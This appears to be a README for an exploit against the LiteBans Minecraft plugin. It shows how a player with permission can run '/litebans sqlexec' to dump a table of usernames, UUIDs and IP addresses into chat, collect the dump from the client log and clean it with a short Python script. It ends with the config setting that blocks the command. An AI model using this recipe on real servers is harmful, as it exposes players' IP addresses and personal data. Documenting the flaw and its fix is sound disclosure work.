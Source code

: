 # Litebans IP Database Dump Exploit

**Overview**

LiteBans is a popular and paid banning plugin for server moderators and administrators.

MySQL is one of the most used database management systems, used to store data in tables that supports SQL queries.

SQL queries are commands or statements that access or modify data in a database. E.g. `SELECT * FROM my_table;` or `SELECT email, password FROM my_table;`

**Analysis**

When installing LiteBans on your server, the plugin creates a local MySQL server for storing player data and punishments.

A feature in the plugin makes you able to execute SQL queries through an ingame command. You can exploit this feature, to dump the server's player data database, if you have the right permissions.

The plugin creates seven tables in the database:
- litebans_bans
- litebans_history
- litebans_kicks
- litebans_mutes
- litebans_servers
- litebans_sync
- litebans_warnings

The table `litebans_history` contains all player data (last seen date, username, UUID and IP-address), which is the table you want to dump.

**Exploitation**

Simply execute the command `/litebans sqlexec SELECT * FROM litebans_history;`. The command will execute the SQL query and take everything that is stored in the SQL table `litebans_history` and display it in the ingame chat. To get the database content, go to the latest client log file located at `%APPDATA%\.minecraft\logs\latest.log` and copy the dumped database table from start to bottom.

You can use this simple Python tool to format the database:
```python
def main():
    lines = [x.strip() for x in open(input("Database path > "), encoding="utf-8", errors="ignore").readlines() if x.strip()]
    with open("out.txt", "w") as file:
        for line in lines:
            file.write(line.split("[CHAT] ")[1] + "\n")

if __name__ == "__main__":
    main()
```

**Prevention**

In the update LiteBans 2.3.10 - 2.3.15, a security patch was added. The configuration `security.sqlexec` was now set to true by default, which meant only the console can use the sqlexec feature.

To prevent your server from getting its database dumped, set the security feature `security.sqlexec` to true in the configuration file of LiteBans located at `./plugins/LiteBans/config.yml`.

This configuration change will block players from using the command `/litebans sqlexec`.

```yaml
security:
  # If enabled, only the console can see IP addresses in /dupeip output.
  # This does not prevent players from using /dupeip. It only prevents them from seeing IP addresses.
  dupeip: true
  # If enabled, only the console can use /iphistory.
  iphistory: true
  # If enabled, only the console can use "/litebans sqlexec".
  sqlexec: true
```